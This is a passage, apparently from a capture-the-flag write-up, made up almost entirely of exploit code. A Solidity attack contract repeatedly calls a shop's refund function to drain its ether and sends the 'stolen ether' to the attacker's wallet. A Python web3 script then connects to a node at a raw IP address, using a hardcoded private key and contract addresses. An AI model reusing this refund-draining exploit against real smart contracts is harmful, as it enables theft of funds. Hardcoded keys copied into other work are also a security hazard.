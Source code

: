 ```sol
            comment out one of them depending on which step you are on
        */

        /* Step 1 */
        if (address(shop).balance >= 2900 ether) {
        shop.refund(0, 1);
        }

        // sped up attack to recover at least 1337 ether
        
        /* Step2 */
        if (address(shop).balance >= 1500 ){
            shop.refund(0, 10);
        }

    }

    // send stolen ether back to my wallet
    function sendFunds() public {
        owner.transfer(address(this).balance);
    }

    // check how much ether possessed for debugging
    function getBalance() external view returns (uint) {
        return address(this).balance;
    }
}
```

`exploit.py`:

```py
from web3 import Web3
from web3.middleware import geth_poa_middleware
from eth_account import Account
from solcx import compile_source, install_solc, get_installable_solc_versions, get_installed_solc_versions, set_solc_version


# use install_solc if no version is installed
set_solc_version('0.6.0')

# Setup Web3 connection
provider_url = 'http://64.23.154.146:48594'
web3 = Web3(Web3.HTTPProvider(provider_url))

# Add POA middleware for private chains or testnets
web3.middleware_onion.inject(geth_poa_middleware, layer=0)

# Define addresses and private key
contract_address = '0xc61AaFcb1334770b36D505e5f960c6494bd25aa1'
wallet_address = '0x8207C8F9346dB7f0bA8b7eEFd162b83f46F8Fc95'
private_key = '0x76c47a76053c8ebb0839a5b471ec0ddb3a9b8e92fdd7802d2209ba2a5d9f3977'

# Setup wallet and contract
wallet = Account.from_key(private_key)

# ABI definition
abi = [
    {"constant": False, "inputs": [{"name": "item", "type": "uint256"}, {"name": "quantity", "type": "uint256"}], "name": "buy", "outputs": [], "payable": True, "stateMutability": "payable", "type": "function"},
```